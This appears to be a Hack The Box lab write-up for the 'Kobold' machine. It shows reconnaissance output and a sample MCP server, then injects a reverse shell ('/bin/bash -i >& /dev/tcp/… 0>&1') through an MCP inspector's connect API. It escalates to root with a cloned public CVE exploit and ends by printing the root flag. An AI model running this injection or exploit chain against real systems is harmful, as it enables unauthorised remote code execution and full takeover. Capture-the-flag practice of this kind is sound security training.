

# Kobold

sudo nmap -sCV 10.129.13.118
Starting Nmap 7.95 ( [https://nmap.org](https://nmap.org/) ) at 2026-06-12 10:46 EDT
Nmap scan report for 10.129.13.118
Host is up (0.0099s latency).
Not shown: 997 closed tcp ports (reset)
PORT    STATE SERVICE  VERSION
22/tcp  open  ssh      OpenSSH 9.6p1 Ubuntu 3ubuntu13.15 (Ubuntu Linux; protocol 2.0)
| ssh-hostkey:
|   256 8c:45:12:36:03:61:de:0f:0b:2b:c3:9b:2a:92:59:a1 (ECDSA)
|_  256 d2:3c:bf:ed:55:4a:52:13:b5:34:d2:fb:8f:e4:93:bd (ED25519)
80/tcp  open  http     nginx 1.24.0 (Ubuntu)
|_http-server-header: nginx/1.24.0 (Ubuntu)
|_http-title: Did not follow redirect to [https://kobold.htb/](https://kobold.htb/)
443/tcp open  ssl/http nginx 1.24.0 (Ubuntu)
|_http-server-header: nginx/1.24.0 (Ubuntu)
|*ssl-date: TLS randomness does not represent time
| tls-alpn:
|   http/1.1
|   http/1.0
|*  http/0.9
|_http-title: Did not follow redirect to [https://kobold.htb/](https://kobold.htb/)
| ssl-cert: Subject: commonName=kobold.htb
| Subject Alternative Name: DNS:kobold.htb, DNS:*.kobold.htb
| Not valid before: 2026-03-15T15:08:55
|_Not valid after:  2125-02-19T15:08:55
Service Info: OS: Linux; CPE: cpe:/o:linux:linux_kernel

gobuster vhost -w /usr/share/dnsrecon/dnsrecon/data/subdomains-top1mil.txt -u [https://kobold.htb](https://kobold.htb/) --append-domain --exclude-length 166 -k

Gobuster v3.6
by OJ Reeves (@TheColonial) & Christian Mehlmauer (@firefart)

[+] Url: [https://kobold.htb](https://kobold.htb/)
[+] Method: GET
[+] Threads: 10
[+] Wordlist: /usr/share/dnsrecon/dnsrecon/data/subdomains-top1mil.txt
[+] User Agent: gobuster/3.6
[+] Timeout: 10s
[+] Append Domain: true
[+] Exclude Length: 166

Starting gobuster in VHOST enumeration mode

Found: mcp.kobold.htb Status: 200 [Size: 466]
Found: bin.kobold.htb Status: 200 [Size: 24402]

└──╼ [★]$ cat /etc/hosts
127.0.0.1	localhost
127.0.1.1	pwnbox7.1

The following lines are desirable for IPv6 capable hosts

::1     localhost ip6-localhost ip6-loopback
ff02::1 ip6-allnodes
ff02::2 ip6-allrouters
127.0.0.1 localhost
127.0.1.1 htb-bblawpxtox [htb-bblawpxtox.htb-cloud.com](http://htb-bblawpxtox.htb-cloud.com/)
10.129.13.118 kobold.htb mcp.kobold.htb bin.kobold.htb



npm init -y
npm pkg set type=module
npm i @modelcontextprotocol/sdk express zod

vi server.js

node server.js

// Simple MCP server (Streamable HTTP transport)
// Listens on port 3000, MCP endpoint at /mcp
//
// Install:
//   npm init -y
//   npm i @modelcontextprotocol/sdk express zod
//   (add "type": "module" to package.json, or rename this file to server.mjs)
// Run:
//   node server.js

import express from "express";
import { randomUUID } from "node:crypto";
import { McpServer } from "@modelcontextprotocol/sdk/server/mcp.js";
import { StreamableHTTPServerTransport } from "@modelcontextprotocol/sdk/server/streamableHttp.js";
import { isInitializeRequest } from "@modelcontextprotocol/sdk/types.js";
import { z } from "zod";

const PORT = 3000;

// --- Build the MCP server and register capabilities ---
function buildServer() {
const server = new McpServer({
name: "simple-mcp-server",
version: "1.0.0",
});

// Example tool: echo
server.registerTool(
"echo",
{
title: "Echo",
description: "Echoes back the provided text.",
inputSchema: { text: z.string() },
},
async ({ text }) => ({
content: [{ type: "text", text }],
})
);

// Example tool: add two numbers
server.registerTool(
"add",
{
title: "Add",
description: "Adds two numbers.",
inputSchema: { a: z.number(), b: z.number() },
},
async ({ a, b }) => ({
content: [{ type: "text", text: String(a + b) }],
})
);

return server;
}

const app = express();
app.use(express.json());

// Holds transports keyed by session id so a client's stream is reused
const transports = {};

// POST /mcp — client -> server messages (and session initialization)
app.post("/mcp", async (req, res) => {
const sessionId = req.headers["mcp-session-id"];
let transport;

if (sessionId && transports[sessionId]) {
// Reuse existing session
transport = transports[sessionId];
} else if (!sessionId && isInitializeRequest(req.body)) {
// New session
transport = new StreamableHTTPServerTransport({
sessionIdGenerator: () => randomUUID(),
onsessioninitialized: (sid) => {
transports[sid] = transport;
},
});

```
transport.onclose = () => {
  if (transport.sessionId) delete transports[transport.sessionId];
};

const server = buildServer();
await server.connect(transport);
```

} else {
res.status(400).json({
jsonrpc: "2.0",
error: { code: -32000, message: "Bad Request: no valid session ID" },
id: null,
});
return;
}

await transport.handleRequest(req, res, req.body);
});

// Shared handler for GET (server -> client stream) and DELETE (close session)
async function handleSessionRequest(req, res) {
const sessionId = req.headers["mcp-session-id"];
if (!sessionId || !transports[sessionId]) {
res.status(400).send("Invalid or missing session ID");
return;
}
const transport = transports[sessionId];
await transport.handleRequest(req, res);
}

// GET /mcp — server-to-client notifications via SSE
app.get("/mcp", handleSessionRequest);

// DELETE /mcp — terminate session
app.delete("/mcp", handleSessionRequest);

app.listen(PORT, () => {
console.log(`MCP server listening on <http://localhost>:${PORT}/mcp`);
});

nc -lvnp 4444
Listening on 0.0.0.0 4444
Connection received on 10.129.14.214 41518
bash: cannot set terminal process group (1579): Inappropriate ioctl for device
bash: no job control in this shell
ben@kobold:/usr/local/lib/node_modules/@mcpjam/inspector$

curl -k [https://mcp.kobold.htb/api/mcp/connect](https://mcp.kobold.htb/api/mcp/connect) --header "Content-Type: application/json" --data "{\"serverConfig\":{\"command\":\"/bin/bash\",\"args\":[\"-c\", \"/bin/bash -i >& /dev/tcp/10.10.15.206/4444 0>&1\"],\"env\":{}},\"serverId\":\"mytests\"}"

git clone [https://github.com/0xBlackash/CVE-2026-41651.git](https://github.com/0xBlackash/CVE-2026-41651.git)
Cloning into 'CVE-2026-41651'...
remote: Enumerating objects: 18, done.
remote: Counting objects: 100% (18/18), done.
remote: Compressing objects: 100% (15/15), done.
remote: Total 18 (delta 2), reused 0 (delta 0), pack-reused 0 (from 0)
Receiving objects: 100% (18/18), 14.18 KiB | 14.18 MiB/s, done.
Resolving deltas: 100% (2/2), done.
┌─[us-dedivip-4]─[10.10.15.206]─[ronking37@htb-kk0k3ciu0i]─[~]
└──╼ [★]$ cd CVE-2026-41651/
┌─[us-dedivip-4]─[10.10.15.206]─[ronking37@htb-kk0k3ciu0i]─[~/CVE-2026-41651]
└──╼ [★]$ python3 -m http.server

.suid_bash-5.2# cd /root
.suid_bash-5.2# ls
arcane_linux_amd64  data  root.txt
.suid_bash-5.2# cat root.txt
112d96188d222cbe3ec747c213a5117c